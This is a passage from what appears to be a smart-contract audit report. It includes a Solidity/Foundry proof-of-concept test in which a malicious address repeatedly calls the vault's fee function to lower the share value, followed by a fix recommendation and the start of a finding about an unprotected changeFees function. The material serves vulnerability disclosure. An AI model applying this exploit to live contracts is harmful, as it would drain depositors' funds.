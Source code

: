 ```solidity
    // Sanity check.
    uint256 preMutationShareBal = aliceShareAmount + bobShareAmount;
    uint256 preMutationBal = aliceassetAmount + bobassetAmount;
    assertEq(vault.totalSupply(), preMutationShareBal);
    assertEq(vault.totalAssets(), preMutationBal);
    assertEq(vault.totalSupply(), 6000);
    assertEq(vault.totalAssets(), 6000);

    // 3. Vault mutates by +3000 tokens...                    |
    //    (simulated yield returned from adapter)...
    // The Vault now contains more tokens than deposited which causes the exchange rate to change.
    // Alice share is 33.33% of the Vault, Bob 66.66% of the Vault.
    // Alice's share count stays the same but the asset amount changes from 2000 to 3000.
    // Bob's share count stays the same but the asset amount changes from 4000 to 6000.
    asset.mint(address(adapter), mutationassetAmount);
    assertEq(vault.totalSupply(), preMutationShareBal);
    assertEq(vault.totalAssets(), preMutationBal + mutationassetAmount);
    assertEq(vault.balanceOf(alice), aliceShareAmount);
    assertEq(vault.convertToAssets(vault.balanceOf(alice)), aliceassetAmount + (mutationassetAmount / 3) * 1);
    assertEq(vault.balanceOf(bob), bobShareAmount);
    assertEq(vault.convertToAssets(vault.balanceOf(bob)), bobassetAmount + (mutationassetAmount / 3) * 2);

    emit log_named_decimal_uint("Share Value Before" , vault.convertToAssets(1e18), 18);
    _setFees(0,0,1e17,1e17);
    address maluser = vm.addr(0x13337);
    vm.startPrank(maluser);
    for(uint i = 0;i<10000;i++){
      vault.takeManagementAndPerformanceFees();
    }
    vm.stopPrank();
    emit log_named_decimal_uint("Share Value After" , vault.convertToAssets(1e18), 18);
```

The output will show the share value before as `1.500000000000000000` and after as `1.450676982591876208` which cleary shows the value is decreased.

### Recommendation

Set an `onlyOwner` modifier and let the performance fee only be called after certain intervals.

## [H-03] Anyone can call `changeFees` after the quit period has passed and the fee would be nulled out.

### Impact

The `changeFees()` doesn’t have the onlyOwner modifier and hence can be called by anyone. After the quit period is passed a depositer / withdrawer can call this function to null out the values of fees to quickly deposit/withdraw large funds without any fees.
